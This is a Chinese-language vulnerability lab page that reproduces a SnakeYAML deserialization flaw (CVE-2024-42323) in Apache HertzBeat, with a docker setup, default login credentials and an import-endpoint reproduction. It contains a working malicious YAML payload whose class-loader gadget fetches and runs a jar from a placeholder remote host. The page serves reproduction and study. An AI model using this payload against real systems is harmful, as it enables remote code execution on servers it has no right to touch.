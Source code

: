 # Apache-HertzBeat SnakeYaml反序列化漏洞(CVE-2024-42323)

Apache HertzBeat 是开源的实时监控工具。受影响版本中由于使用漏洞版本的 SnakeYAML 解析用户可控的 yaml 文件，经过身份验证的攻击者可通过 /api/monitors/import、/api/alert/defines/import 接口新增监控类型时配置恶意的 yaml 脚本远程执行任意代码。

影响范围：

* Apache HertzBeat < 1.6.0

参考链接：

* https://forum.butian.net/article/612
* https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
* https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md

## 漏洞环境

运行漏洞环境:

```
docker-compose up -d 
```

运行完成后，将启动一个`HertzBeat 1.4.4`版本的服务，服务开启之后，访问`http://your-ip:1157/dashboard`即可查看`HertzBeat`的登录界面，默认密码：admin/hertzbeat

## 漏洞复现

选择任何监控点击导入监控

![image-20250225144319776](1.png)

修改上传yaml文件中的value值：

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null

```



`/api/monitors/import`可以触发SnakeYaml反序列化漏洞

* 需要在`jdk11`环境下编译`https://github.com/fei9747/yaml-payload/`项目，生成利用`payload`
* example : 这里生成的`payload`执行的本地命令为: `touch /tmp/success`



成功执行代码

![image-20250225145141924](2.png)

![image-20250225145052690](3.png)

